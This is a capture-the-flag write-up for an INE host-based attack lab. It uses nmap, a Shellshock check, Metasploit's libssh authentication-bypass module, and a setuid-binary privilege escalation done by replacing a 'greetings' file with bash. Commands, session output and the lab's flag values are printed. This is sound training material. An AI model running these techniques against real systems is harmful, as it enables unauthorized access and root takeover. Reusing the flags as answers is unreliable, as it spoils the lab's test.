






# Host & Network Penetration Testing: System-Host Based Attacks CTF 2

## Target
* `http://target1.ine.local`
* `http://target2.ine.local`

## Tools used:

---

### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local.
We first run a simple script scan
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn target1.ine.local -sV -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-24 09:34 IST
Nmap scan report for target1.ine.local (192.206.20.3)
Host is up (0.000026s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (Unix)
|_http-title: Browser Detector
MAC Address: 02:42:C0:CE:14:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.42 seconds  
```
  
Since its a `.cgi` webpage we can check if its vulnerable to shellshock
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn target1.ine.local -sV --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-24 09:37 IST
Nmap scan report for target1.ine.local (192.206.20.3)
Host is up (0.000025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.6 ((Unix))
|_http-server-header: Apache/2.4.6 (Unix)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
MAC Address: 02:42:C0:CE:14:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.35 seconds
```
Since it is vulnerable to shellshock, we open it in burpsuite and try to send a payload to execute arbitrary command

  
We see that it replies to the `whoami` command, now we just list the content of the file directory and try ot find the flag.  


Flag: **d76b433d54f74b469ff37b0fc95034eb**

### Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.
We explore the mentioned directory and find the next flag  


Flag: **2bec98e6042f4f24a0ee2e65bd0d3b48**

### Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.
We run an `nmap` scan on the second target.
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn target2.ine.local                                                                                                                                                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-24 09:50 IST
Nmap scan report for target2.ine.local (192.206.20.4)
Host is up (0.000025s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:C0:CE:14:04 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
```
We see that ssh is running, so we load up msf and use the `libssh_auth_bypass` module as stated in the question.  
```bash
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true 
spawn_pty => true
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 192.206.20.4:22 - Attempting authentication bypass
[*] Attempting "Shell" Action, see "show actions" for more details
[*] Command shell session 3 opened (192.206.20.2:38287 -> 192.206.20.4:22) at 2026-01-24 09:55:26 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions

Active sessions
===============

  Id  Name  Type   Information                                                  Connection
  --  ----  ----   -----------                                                  ----------
  3         shell  libssh Authentication Bypass Scanner (SSH-2.0-libssh_0.8.3)  192.206.20.2:38287 -> 192.206.20.4:22 (192.206.20.4)
```
Now we just use this session to get the flag.  
```bash
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -i 3
[*] Starting interaction with 3...


Shell Banner:
_[?2004hsh-5.2$
-----
          

sh-5.2$ ls 
ls
bin   dev  home  lib64  opt   root  sbin  sys  usr
boot  etc  lib   mnt    proc  run   srv   tmp  var
sh-5.2$ cd home
cd home
sh-5.2$ ls
ls
temp  user
sh-5.2$ cd user       
cd usser
sh: cd: usser: No such file or directory
sh-5.2$ cd user
cd user
sh-5.2$ ls
ls
flag.txt  greetings  welcome
sh-5.2$ cat flag.txt
cat flag.txt
FLAG3_e563e6520ea04e4289aa4de86577b32e
sh-5.2$ 
```
Flag: **e563e6520ea04e4289aa4de86577b32e**  

### Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.
We see that we cannot log in as root, but the `welcome` program reads from the `greetings` file.  
```bash
sh-5.2$ cd /root
cd /root
sh: cd: /root: Permission denied
sh-5.2$ ls -la
ls -la
total 56
drwx------ 1 user user 4096 Jan 24 03:58 .
drwxr-xr-x 1 root root 4096 Nov 14  2024 ..
-rw-r--r-- 1 user user   21 Sep 24  2024 .bash_logout
-rw-r--r-- 1 user user   57 Sep 24  2024 .bash_profile
-rw-r--r-- 1 user user  172 Sep 24  2024 .bashrc
drwxr-xr-x 2 user user 4096 Nov 14  2024 .ssh
-rw-r--r-- 1 root root   39 Jan 24 03:58 flag.txt
-rwx------ 1 root root 8296 Jun 11  2024 greetings
-rwsr-xr-x 1 root root 8344 Jun 11  2024 welcome
sh-5.2$ ./welcome
./welcome
Welcome to Attack Defense Labs
sh-5.2$ strings welcome
strings welcome
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
greetings
;*3$"
```
So we try to write our own `greetings` file that will spawn a shell whenever this program is called.  
```bash
sh-5.2$ rm greetings
rm greetings
rm: remove write-protected regular file 'greetings'? y
y
sh-5.2$ ls
ls
flag.txt  welcome
sh-5.2$ cp /bin/bash greetings
cp /bin/bash greetings
sh-5.2$ ./welcome
./welcome
[root@target2 ~]# cd /root
cd /root
[root@target2 root]# ls
ls
flag.txt
[root@target2 root]# cat flag.txt
cat flag.txt
FLAG4_7f90be8577f24618a932888316148f10
```
Using this shell, we get the flag.
Flag: **7f90be8577f24618a932888316148f10**